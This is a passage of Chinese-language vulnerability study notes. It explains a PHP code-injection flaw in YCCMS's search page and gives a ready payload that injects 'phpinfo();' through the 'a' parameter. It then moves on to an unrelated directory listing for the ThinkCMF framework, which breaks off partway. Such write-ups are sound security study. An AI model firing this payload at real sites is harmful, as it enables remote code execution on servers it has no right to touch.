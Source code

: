 ```php
$_tpl=TPL::getInstance();
$_search=new SearchAction();
$_search->index();
?>
```

回到最开始的地方，首先要经过file_exists函数，再经过ucfirst函数，ucfirst函数是将首字母转换成大写。file_exists函数只要目录存在文件不存在结果也为真的

```php
<?php
echo file_exists("f://test/../../");
?>
```

最终Payload构造为：`yccms/search/index.php?a=AdminModel();phpinfo();//../`，AdminModel();用来闭合前面的实例化，phpinfo();是我们要执行的代码，//用来注释后面的多余代码，../用来返回上一级目录。

# ThinkCMF框架

## 各目录功能

### api 

api目录

### app

应用目录

#### portal

门户应用目录

##### config.php

应用配置文件

##### common.php

模块函数文件

##### controller

控制器目录

##### model

模型目录

#### common.php

应用公共(函数)文件

#### config.php
